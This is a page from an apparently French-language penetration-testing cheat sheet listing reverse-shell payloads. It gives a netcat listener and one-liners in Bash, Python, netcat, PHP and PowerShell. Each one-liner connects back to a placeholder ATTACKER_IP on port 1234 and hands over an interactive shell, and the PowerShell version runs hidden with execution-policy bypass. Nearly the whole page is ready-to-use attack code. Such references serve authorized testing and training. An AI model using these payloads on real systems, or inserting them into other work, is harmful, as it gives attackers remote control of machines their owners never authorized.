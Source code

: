 # 🐚 Reverse Shells

[🏠 Accueil](../README.md) | [⚡ Quick Commands](../07-cheatsheets/quick-commands.md) | [🔨 Hydra](../06-tools/hydra.md) | [📊 Énumération](../03-enumeration/http-web.md)

## Listener (Attaquant)
```bash
nc -nvlp 1234
```

## Bash
```bash
/bin/bash -c 'bash -i>&/dev/tcp/ATTACKER_IP/1234 0>&1'
bash -i >& /dev/tcp/ATTACKER_IP/1234 0>&1
```

## Python
```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## Netcat
```bash
nc -e /bin/sh ATTACKER_IP 1234
nc -c /bin/sh ATTACKER_IP 1234
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER_IP 1234 >/tmp/f
```

## PHP
```php
<?php system("/bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/1234 0>&1'"); ?>
```

## PowerShell (Windows)
```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command "& {$client = New-Object System.Net.Sockets.TCPClient('ATTACKER_IP',1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()}"
```
